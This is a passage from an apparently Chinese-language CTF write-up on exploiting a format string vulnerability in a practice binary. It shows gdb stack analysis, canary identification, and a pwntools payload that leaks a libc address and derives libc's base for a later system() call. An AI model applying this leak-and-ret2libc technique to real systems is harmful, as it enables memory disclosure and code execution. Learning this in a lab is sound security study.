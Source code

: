 从`0x7fffffffdda80`到`0x7fffffffdfa8`都是buf，然后`0x7fffffffdfb8`里面存放的`0xb419dbca1e0b7500`，因为其后俩位都是0，而Canary 这个随机生成值的特点就是后两位为0，所以其紧接着后面是echo()函数里面的rbp，再到ret(从IDA的main函数里面call echo那句指令的下一个指令的地址，因为执行完echo函数了嘛，如图)，然后又可以看到这个rbp是指向`0x00000000004009c0-->0x00000000004009c0`也就是前一个rbp(也就是main函数的)，再到ret(也就是main函数的返回地址，也就是libc库里面的地址)

<img src="/images/posts/fmt1/1523720512033.png" >

插入leak对于在libc库里面的那个地址(偏移不会变，但地址会变)
因为`0x7fffffffdda8`是第六个地址，可以计算得到`0x00007ffff7a5c2e1	`是第79个参数地址，然后用格式化字符串漏洞打印出来即可
```
payload = ""
payload += "%78$p.%79$p.%80$p" 

p.recv()
p.sendline(payload)
p.recvuntil(".")
libc_start_main_ret = int(p.recvuntil(".",drop = True),16)

print hex(libc_start_main_ret)
```
然后继续分析
```
gdb-peda$ bt
#0  __printf (format=0x7fffffffddb0 "AAAAA\n") at printf.c:28
#1  0x0000000000400868 in echo ()
#2  0x00000000004009a2 in main ()
#3  0x00007ffff7a5c2e1 in __libc_start_main (main=0x40096f <main>, argc=0x1, 
    argv=0x7fffffffe0d8, init=<optimized out>, fini=<optimized out>, 
    rtld_fini=<optimized out>, stack_end=0x7fffffffe0c8)
    at ../csu/libc-start.c:291
#4  0x0000000000400739 in _start ()
```
从上面的栈信息可以知道先是printf的返回地址(0x400868 )，然后是执行完echo函数得到的返回地址(0x4009a2)，然后执行完main函数的返回地址就是`0x00007ffff7a5c2e1`，也就是__libc_start_main 里面的一个地址，也就是libc里面的地址，我们xinfo看一下这个地址的信息：

```
gdb-peda$ xinfo 0x00007ffff7a5c2e1
0x7ffff7a5c2e1 (<__libc_start_main+241>:	mov    edi,eax)
Virtual memory mapping:
Start : 0x00007ffff7a3c000
End   : 0x00007ffff7bcf000
Offset: 0x202e1
Perm  : r-xp
Name  : /lib/x86_64-linux-gnu/libc-2.24.so
```
可以看到这确实是libc库里面的地址，而且知道偏移量为`0x202e1`，这样的话，libc的基地址就出来了；然后system的地址有两个办法可以得到，一个是利用gdb直接打印其地址找到偏移量计算system地址，第二种方法是利用libc-database这类的工具根据libc的基地址找到对应的libc版本。
